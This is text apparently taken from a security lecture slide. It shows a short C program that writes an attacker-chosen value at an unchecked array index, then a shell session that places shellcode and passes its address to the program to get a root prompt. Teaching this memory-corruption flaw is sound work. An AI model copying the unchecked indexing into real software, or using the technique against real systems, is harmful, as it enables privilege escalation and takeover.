

# Example
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
  int array[8];
  int index;
  int value;
  index = (int) strtol(argv[1], NULL, 10);
  value = (int) strtoul(argv[2], NULL, 16);
  array[index] = value;
  return 0;
}
% egg_create
shellcode is at 0xbffff5fe
$ ./arrayoverflow 11 0xbffff5fe
#